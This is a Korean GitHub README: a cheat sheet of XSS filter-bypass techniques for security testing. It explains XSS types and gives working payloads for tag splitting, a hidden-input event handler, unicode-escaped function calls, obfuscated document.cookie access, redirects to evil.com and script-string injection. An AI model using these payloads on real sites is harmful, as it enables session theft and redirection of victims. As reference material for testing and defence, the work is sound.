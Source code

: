 # XSS-Bypass-CheatSheet
정리된 **XSS 필터 우회 페이로드**와 **보안 점검 시 활용 가능한 기법 모음**입니다.  
XSS 취약점 점검을 위한 **필터 우회 구문** 및 **케이스별 정리**를 포함합니다.

---

## 📂 구성 내용

- ✅ 필터 우회용 XSS 페이로드 모음
- ✅ 상황별(WAF, 입력 값 검증 우회 등) 우회 기법 정리
- ✅ 실전 점검에서 활용된 사례 기반 정리
---


## 🛡️ 책임 한계 및 유의사항
> 이 저장소에 포함된 모든 XSS 필터 우회 구문과 기법은 **보안 점검 및 교육 목적**으로만 제공됩니다.  
> 실제 시스템이나 타인의 서비스에 **무단으로 테스트하거나 악용하는 것은 법적인 책임을 초래할 수 있으며**,  
> 이에 따른 모든 책임은 사용자 본인에게 있습니다.  
> 본 저장소의 내용을 사용함으로써 발생하는 **직·간접적인 피해에 대해 작성자는 어떠한 책임도 지지 않습니다.**
---


## 🔍 XSS 개요

XSS는 공격자가 웹 페이지에 악성 스크립트를 삽입하여 사용자의 브라우저에서 실행되도록 유도하는 취약점입니다. 주로 사용자 입력값을 적절히 검증하거나 이스케이프하지 않을 경우 발생합니다.

### 종류
- **Reflected XSS**: URL 등에 포함된 스크립트가 바로 반영되어 실행됨
- **Stored XSS**: 데이터베이스 등에 저장된 스크립트가 나중에 실행됨
- **DOM-based XSS**: 클라이언트 측 자바스크립트 로직에서 발생함

## 💣 CASE별 우회 기법

### 1. 태그 분할 및 중첩 우회 (Broken/Nested Tag Bypass)

필터가 단순히 script 문자열이 삭제되는 경우, scscriptript 또는 scrscriptipt 등의 형태로 필터를 우회할 수 있습니다.  

### 💡 예시
```
<scscriptript></scriscriptpt>
```

---

### 2. hidden 필드 내 태그 탈출이 불가능한 경우(Hidden Input Field Payload)
\<input type="hidden"\> 등의 폼 필드 내 속성에서 이벤트 핸들러를 통한 실행을 유도하는 방식입니다.
2024년 7월에 등장한 새로운 우회 기법으로, oncontentvisibilityautostatechange 이벤트를 이용해 사용자 인터랙션 없이 XSS를 트리거할 수 있습니다. 이 기법은 Chrome Canary 및 최신 버전의 Chrome에서 작동하며, 기존 XSS 필터링을 우회하는 데 활용될 수 있습니다.  

### 💡 예시
```
<input type="hidden" oncontentvisibilityautostatechange="alert(/TEST/)" style="content-visibility:auto">
```

---

### 3. 유니코드 인코딩 우회 (함수 호출 필터 우회)
웹 방화벽(WAF)이나 필터링 로직이 alert(), confirm() 등의 특정 함수 호출 문자열만 필터링할 경우, 유니코드 이스케이프를 사용하여 탐지를 우회할 수 있습니다. 이벤트 핸들러 자체는 허용되지만 내부 함수 호출만 제한하는 상황에서 효과적입니다.

### 💡 예시
```
<img src=x onerror="\u0061lert(1)">
<img src=x onerror="\u0063onfirm(1)">
```
위 코드는 각각 alert(1), confirm(1)을 유니코드로 표현하여 필터를 우회합니다.
\u0061 → a, \u0063 → c 이므로 최종적으로는 alert() 및 confirm()과 동일하게 동작합니다.

---

### 4. document.cookie 접근 우회 (속성 인덱싱 우회)
일부 필터는 document.cookie라는 문자열을 정적으로 탐지하여 차단합니다.
이럴 경우, 속성 접근을 문자열 인덱싱 방식으로 우회할 수 있습니다.

### 💡 예시
```
<script>alert(document['cookie'])</script>
<script>alert(document['c'+'ookie'])</script>
<script>alert(document[String.fromCharCode(99,111,111,107,105,101)])</script>
```
위 코드는 모두 document.cookie와 동일하게 작동하지만, 문자열 결합 또는 유니코드로 표현되어 필터링을 회피합니다.

 ---
 
### 5. location.href 관련 우회 (리디렉션 함수 다양화)
필터가 location.href만 막을 경우, 동일한 효과를 가진 다른 속성 또는 메서드를 활용해 우회가 가능합니다.

### 💡 예시
```
location.href = 'https://evil.com'
location['href'] = 'https://evil.com'
location.assign('https://evil.com')
location['assign']('https://evil.com')
location.replace('https://evil.com')
window.location='https://evil.com'
top.location='https://evil.com'
window.top.location='https://evil.com'
```
### 📝 설명  
location.assign() : 새 페이지로 이동 (기록 남음)  
location.replace() : 새 페이지로 이동 (기록 남지 않음, back 불가)  
location['assign']() : 필터 우회용 문자열 분리  
window.location : 전역 객체 접근으로 우회 가능

---

### 6. <script> 태그 내 문자열 우회 (String Context Injection)
웹 애플리케이션이 <script> 태그 내에서 사용자 입력을 문자열로 삽입할 경우, 이를 활용한 다양한 우회 기법이 존재합니다.

### 💡 예시 (정상 출력 예상)
```
<script>
  var msg = "Hello USER_INPUT!";
</script>
```

### 💡 예시(공격자가 USER_INPUT에 아래와 같은 값을 입력할 경우)
### ✅ 문자열 닫기 + 코드 삽입 + 재닫기
```
";alert(1);//
```
### 최종 결과:
```
<script>
  var msg = "";alert(1);//";
</script>
```
  
### ✅ 다양한 연산자/패턴을 활용한 실행
### 패턴 설명
"aaaa"*alert()*"aaaa"	곱셈 연산자 활용 – 실행 후 NaN 반환되지만 alert()은 실행됨  
"aaaa"/alert()/"aaaa"	나눗셈 연산자 활용  
"aaaa"-alert()-"aaaa"	뺄셈 연산자 활용  
"aaaa"^alert()^"aaaa"	XOR 연산자 활용  
"aaaa"+alert()+"aaaa"	문자열 + alert 함수 결합 (NaN 포함 가능)  

### 💡 예시:
```
<script>
  var a = "aaaa"*alert(1)*"aaaa";
  var a = "aaaa"/alert(1)/"aaaa";
  var a = "aaaa"-alert(1)-"aaaa";
  var a = "aaaa"^alert(1)^"aaaa";
  var a = "aaaa"+alert(1)+"aaaa";
</script>
```

### ✅ HTML Escape 우회 목적의 <script> 중첩 삽입
### 💡 예시
```
<script>
  var payload = "aaa<script>alert(1)</script>aaa";
</script>
```
위 방식은 서버 측에서 "..aaa<script>alert(1)</script>aaa.." 문자열에 사용자 입력을 넣는 경우에만 작동하며, 필터링이 허술할 때 위험합니다.

